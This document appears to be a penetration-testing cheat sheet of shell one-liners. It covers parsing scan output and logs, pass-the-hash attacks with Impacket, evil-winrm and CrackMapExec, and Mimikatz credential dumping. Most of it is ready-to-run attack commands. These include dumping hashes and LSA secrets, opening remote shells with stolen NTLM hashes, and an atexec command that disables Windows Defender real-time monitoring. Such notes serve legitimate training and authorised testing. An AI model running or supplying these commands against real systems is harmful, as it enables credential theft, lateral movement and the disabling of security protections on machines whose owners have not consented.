 - If number of spaces between port and status is different: (Note: there is a space between the brackets!)  
  `cat TCP-SYN-scan_11-06-19_04-59-05.txt | grep -E "80/tcp[ ]+open"`  
- Get last two regex occurences of string, e.g. to return only "domain.topleveldomain" from a long list which includes subdomains:  
  `grep -E "[A-Za-z0-9\-]+\.[A-Za-z0-9\-]+$" --color -o urls.txt | sort -u`  
- another method:  
  `cat domains.txt | rev | cut -d. -f 1-2 | rev`  
- get client IPs from apache access.log and group them:  
  `cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn`  
- Get Current user:   
  `grep -oz "USER=.*" /proc/self/environ; echo `   
- Get current users id:   
  `cat /proc/self/loginuid;echo`   

## Creating lists
- add domain name to the beginning of each user in a users.txt file:  
  `# sed -e 's/^/THINC\\/' /root/Desktop/OSCP/usernames.txt > /root/Desktop/OSCP/domainusers.txt`  

## Pass-the-Hash techniques
- Dump creds with Impacket:  
  `secretsdump.py ralph/user1@10.11.1.31 -hashes aad3b435b51404eeaad3b435b51404ee:7a21990fcd3d759941e45c490f143d5f`  
- open cmd.exe on remote target with known hash:  
  `/usr/share/doc/python-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:175a592f3b0c0c5f02fad40c51412d3a Administrator@10.11.1.202 cmd.exe`  
  If psexec is not possible because of AntiVirus, try atexec (and e.g. disable defender):   
  `atexec.py -hashes :e481ed3ed667f5df3c3c3b0dc37ca25f9 winattacklab.local/ffast@10.0.1.100 "powershell -c Set-MpPreference -DisableRealtimeMonitoring \$true"`   
- Open remote connection with known hash using wmiexec:  
  `wmiexec.py ralph/user1@10.11.1.31 -hashes aad3b435b51404eeaad3b435b51404ee:7a21990fcd3d759941e45c490f143d5f`  
- connect to target with evil-winrm:   
  `evil-winrm -i <IP> -u <username> -H <ntlm hash>`   
- CME PTH:   
  `cme smb 172.16.1.1 -u Administrator -H 7facdc498ed1680c4fd1448319a8c04f`   
  Overpass the hash with CME (using kerberos auth):   
  `cme smb 172.16.1.1 -u Administrator -H 7facdc498ed1680c4fd1448319a8c04f -k`   

## Mimikatz
- First Mimikatz commands: (run always)  
  `mimikatz # privilege::debug`  
  `mimikatz # log sekurlsa.log`  
- logonpasswords:  
  `mimikatz # sekurlsa::logonpasswords`  
- other way:  
  `mimikatz # token::elevate`  
  `mimikatz # lsadump::secrets`  
- Use minidump file:  
  `mimikatz # sekurlsa::minidump C:\WINDOWS\Temp\debug7962.bin`  
- PW Dump oneliner: `mimikatz.exe privilege::debug sekurlsa::logonPasswords exit > output.txt`
- Start shell with NTLM hash of user:  
  `mimikatz # sekurlsa::pth /user:admin-kiwi /domain:comp-internal /ntlm:cc36cf7a8514893efccd332446158b1a /run:cmd`  
  